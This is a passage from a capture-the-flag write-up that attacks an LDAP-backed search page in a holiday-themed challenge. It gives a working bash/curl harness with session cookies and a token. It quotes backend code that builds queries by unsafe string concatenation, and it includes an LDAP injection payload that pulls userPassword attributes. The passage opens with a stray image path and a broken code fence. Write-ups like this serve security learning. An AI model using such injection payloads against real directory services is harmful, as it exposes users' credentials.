 ```js
*/
```

This piece of the puzzle required a lot of guess and checking with the LDAP programming query language. A friend of mine wrote a fantastic testing harness for this piece of the challenge. Saving the query below as `query.sh` and then changing the 5th line from the bottom to be the query input allowed us to rapidly test outcomes visually.

```bash
function query() {
	curl 'http://localhost/search' -H 'Cookie: io=xYGRqjZgEIBCK6GwAAAB; JSESSIONID=42fnsysjsbuu6borj7k5zojo; locale=en_US; SnapABugHistory=1#; SnapABugVisit=1#1514008459; csrftoken=; SESSION=mg66e41qk730D6m7Dg1Y' -H 'Origin: http://localhost' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.97 Safari/537.36 Vivaldi/1.95.1047.3' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Accept: */*' -H 'Referer: http://localhost/home.html' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'np-auth: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE4LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.gr2b8plsmw_JCKbomOUR-E7jLiSMeQ-evyYjcxCPXco' --data "name=$1&isElf=True&attributes=profilePath%2Cgn%2Csn%2Cmail%2CuserPassword";
}

function pretty() {
        echo "(|(&(gn=*$1*)(ou=elf))(&(sn=*$1*)(ou=elf)))"
}


# //Note: remember to remove comments about backend query before going into north pole production network
#          /*

#          isElf = 'elf'
#          if request.form['isElf'] != 'True':
#              isElf = 'reindeer'
#          attribute_list = [x.encode('UTF8') for x in request.form['attributes'].split(',')]
#          result = ldap_query('(|(&(gn=*'+request.form['name']+'*)(ou='+isElf+'))(&(sn=*'+request.form['name']+'*)(ou='+isElf+')))', attribute_list)

#          #request.form is the dictionary containing post params sent by client-side
#          #We only want to allow query elf/reindeer data

#          */


# (|(&(gn=*SANTA*)(ou=elf))(&(sn=*SANTA*)(ou=elf)))

Q='s*))(|(ou=*elf'
pretty $Q

echo
query $Q
```
